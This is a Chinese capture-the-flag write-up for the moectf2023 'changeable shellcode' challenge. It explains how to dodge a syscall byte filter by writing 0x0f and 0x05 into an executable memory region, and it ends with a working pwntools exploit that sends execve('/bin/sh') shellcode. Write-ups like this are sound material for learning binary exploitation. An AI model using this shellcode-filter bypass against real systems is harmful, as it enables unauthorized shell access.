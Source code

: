 ```yaml
---
title: moectf2023 - changeable shellcode
date: 2023/9/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析64位程序的shellcode，利用特定内存区域绕过检测并成功打开shell。
---
```


## 文件分析

下载`shellcode`, 保护全开  
ghidra分析为64位程序

## 解题思路

有40个字节的空间，并且没有syscall，需要实现打开shell

而存放的地方，更是~~十分甚至是九分的~~奇怪，这个值在rax寄存器中有  
gdb `vmmap`查看发现该区域可读写执行

总体思路就是在这片区域分别连续写入0x5和0xf来绕开检测，
然后跳转到写了syscall`|05|0f|`的地址，
并且除了syscall以外的指令要写到最简以免长度超限

{% notel purple 踩过的坑 %}
1. 32位的int 0x80好像不能用，就算设置rax=0xb，也无法正常打开shell
2. 不要用ascii转换器，22字节的shellcode可以转出76字节来
{% endnotel %}

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 43877)

code = '''
mov rbx, 0x68732f6e69622f   ; '/bin/sh'
push rbx
mov rdi, rsp                ; rsp现在指向栈上sh字符串位置
xor esi, esi                ; 如果push rsp再用ni会直接运行到底，建议使用si
xor edx, edx
mov qword ptr[rax], 0xf     ; rax -> 0x114514000
nop                         ; preventing optimization
mov qword ptr[rax + 1], 0x5
push 0x3b
pop rax
jmp $ - 0x25                ; 64位的跳转偏移地址是这样的！跳转回0x114514000
'''
# 汇编后39字节，还可以压得更小的也可以开一个discussion

shc = asm(code, arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
